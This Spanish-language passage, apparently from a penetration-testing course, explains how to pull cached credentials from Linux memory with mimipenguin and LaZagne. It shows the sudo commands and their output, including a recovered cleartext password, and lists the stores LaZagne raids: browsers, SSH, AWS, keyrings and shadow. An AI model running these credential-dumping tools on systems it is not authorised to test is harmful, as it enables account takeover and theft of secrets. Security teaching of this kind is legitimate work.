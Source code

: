 
## Memory and Cache

Muchas aplicaciones y procesos trabajan con credenciales necesarias para la autenticación y las almacenan ya sea en memoria o en archivos para que puedan reutilizarse. Por ejemplo, pueden ser las credenciales necesarias para los usuarios que han iniciado sesión. Otro ejemplo son las credenciales almacenadas en los navegadores, que también pueden leerse. Para recuperar este tipo de información de distribuciones de Linux, existe una herramienta llamada [mimipenguin](https://github.com/huntergregal/mimipenguin) que facilita todo el proceso. Sin embargo, esta herramienta requiere permisos de administrador/root.

### Memory - Mimipenguin

```r
cry0l1t3@unixclient:~$ sudo python3 mimipenguin.py
[sudo] password for cry0l1t3: 

[SYSTEM - GNOME]	cry0l1t3:WLpAEXFa0SbqOHY


cry0l1t3@unixclient:~$ sudo bash mimipenguin.sh 
[sudo] password for cry0l1t3: 

MimiPenguin Results:
[SYSTEM - GNOME]          cry0l1t3:WLpAEXFa0SbqOHY
```

Una herramienta aún más poderosa que podemos usar, mencionada anteriormente en la sección Credential Hunting in Windows, es `LaZagne`. Esta herramienta nos permite acceder a muchos más recursos y extraer las credenciales. Las contraseñas y hashes que podemos obtener provienen de las siguientes fuentes, pero no se limitan a ellas:

| Wifi            | Wpa_supplicant | Libsecret | Kwallet      |
|-----------------|----------------|-----------|--------------|
| Chromium-based  | CLI            | Mozilla   | Thunderbird  |
| Git             | Env_variable   | Grub      | Fstab        |
| AWS             | Filezilla      | Gftp      | SSH          |
| Apache          | Shadow         | Docker    | KeePass      |
| Mimipy          | Sessions       |           | Keyrings     |

Por ejemplo, `Keyrings` se utilizan para el almacenamiento y gestión segura de contraseñas en distribuciones de Linux. Las contraseñas se almacenan cifradas y protegidas con una contraseña maestra. Es un gestor de contraseñas basado en el sistema operativo, que discutiremos más adelante en otra sección. De esta manera, no necesitamos recordar cada contraseña y podemos guardar entradas de contraseña repetidas.

### Memory - LaZagne

```r
cry0l1t3@unixclient:~$ sudo python2.7 laZagne.py all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Shadow passwords -----------------

[+] Hash found !!!
```
